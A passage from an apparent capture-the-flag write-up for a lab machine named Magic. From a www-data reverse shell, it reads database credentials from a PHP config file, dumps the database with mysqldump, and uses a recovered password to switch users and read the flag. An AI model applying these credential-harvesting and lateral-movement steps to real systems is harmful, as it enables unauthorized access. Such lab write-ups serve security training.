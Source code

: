 ```shell 
www-data@ubuntu:/var/www/Magic/images/uploads$
``` 
> Note that in both the URL and the reverse shell, the python binary that had been used was **python3**. The binary 
> *python*  will not work.

## Elevating to *theseus*
Upon enumeration, a *PHP5* file, presumably a database file, had been found on */var/www/Magic* and the contents of the 
same is given on the section below.
```php
<?php 
class Database 
{ 
    private static $dbName = 'Magic' ; 
    private static $dbHost = 'localhost' ; 
    private static $dbUsername = 'theseus'; 
    private static $dbUserPassword = 'iamkingtheseus'; 
---SNIP--- 
```
The database password for the user **theseus** had been identified from the file. Trying to switch the session to *theseus*
using **su** had failed, as the user's not into reusing their password (good security practice). As the *mysql* binary
was not found on the target, the next best option, **mysqldump** had been used to dump the database- **Magic** as 
follows.
```shell 
www-data@ubuntu:/home$ mysqldump -B Magic -u theseus -p 
mysqldump -B Magic -u theseus -p 
Enter password: iamkingtheseus 
 
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64) 
-- 
-- Host: localhost    Database: Magic 
-- ------------------------------------------------------ 
-- Server version       5.7.29-0ubuntu0.18.04.1 
---SNIP--- 
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng'); 
/*!40000 ALTER TABLE `login` ENABLE KEYS */; 
UNLOCK TABLES; 
mysqldump: Got error: 1044: Access denied for user 'theseus'@'localhost' to database 'iamkingtheseus' when selecting the database
```
A new password, **Th3s3usW4sK1ng** had been identified from the dump, and switching to the user *theseus* had succeeded,
through which the user flag had been read.
```shell 
www-data@ubuntu:/home$ su theseus 
su theseus 
Password: Th3s3usW4sK1ng 
 
theseus@ubuntu:/home$ cd theseus 
cd theseus 
theseus@ubuntu:~$ id 
id 
uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users) 
theseus@ubuntu:~$ cat user.txt 
cat user.txt 
b9029---REDACTED---acf14
```